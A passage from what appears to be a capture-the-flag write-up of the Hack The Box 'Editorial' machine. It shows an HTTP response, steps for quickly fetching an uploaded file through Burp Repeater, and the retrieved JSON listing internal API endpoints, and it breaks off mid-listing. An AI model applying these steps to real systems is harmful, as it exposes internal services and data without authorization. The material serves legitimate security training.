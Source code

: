 
And the response to this request will look like this:

```shell
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 12 Nov 2024 20:23:25 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
Content-Length: 51


static/uploads/612af631-d63c-4e5c-9ccc-8dc36787eafe
```

It seems like the file value is always changing. Be fast, use Repeater and right after seeing the response, go straight to the URL:

```shell
http://editorial.htb/static/uploads/612af631-d63c-4e5c-9ccc-8dc36787eafe
```

If you are not fast enough, click Send on Repeater again and visit the URL as fast as possible to download the file.

Once we managed to download the file, lets inspect it:

```shell
cat 612af631-d63c-4e5c-9ccc-8dc36787eafe | jq
```

```shell
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
```